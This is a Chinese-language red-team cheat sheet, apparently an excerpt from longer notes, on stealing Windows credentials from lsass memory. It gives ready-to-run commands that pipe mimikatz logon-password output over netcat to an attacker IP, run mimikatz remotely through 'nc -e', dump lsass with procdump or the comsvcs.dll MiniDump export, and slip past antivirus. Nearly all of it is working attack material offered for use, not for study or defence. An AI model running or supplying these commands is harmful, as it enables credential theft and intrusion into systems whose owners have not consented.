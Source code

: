 **远程传输**

输出传输到远程机器
```bash
# Attacker 执行
nc -lvp 4444

# Victim 执行
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
# 192.168.1.1 为Attacker IP
```

通过 nc 远程执行
```bash
# Victim 执行
nc -lvp 443

# Attacker 执行
nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
# 192.168.1.2 为 Victim IP
```

### 直接转储

在任务管理器找到 lsass.exe，右键创建转储文件

procdump 是微软的官方工具，不会被杀，所以如果你的 mimikatz 不免杀，可以用 procdump 导出 lsass.dmp 后拖回本地抓取密码来规避杀软。
```bash
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

也可以采用 pid 方式规避杀软
```
tasklist /fi "imagename eq lsass.exe"
procdump -accepteula -ma 640 lsass.dmp
```

然后用 mimikatz 加载导出来的内存再抓 hash
```
sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords full
```

### comsvcs.dll

使用 `C:\windows\system32\comsvcs.dll` 的导出函数 MiniDump 能够 dump 指定进程的内存文件

在 dump 指定进程内存文件时，需要开启 SeDebugPrivilege 权限, 管理员权限的 cmd 下，默认支持 SeDebugPrivilege 权限，但是状态为 Disabled

直接在 cmd 下执行 rundll32 的命令尝试 dump 指定进程内存文件时，由于无法开启 SeDebugPrivilege 权限，所以会失败, 管理员权限的 powershell 下，默认支持 SeDebugPrivilege 权限，并且状态为 Enabled

所以可以通过 powershell 执行 rundll32 的命令实现

```powershell
Get-Process lsass
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 516 C:\lsass.dmp full"
```
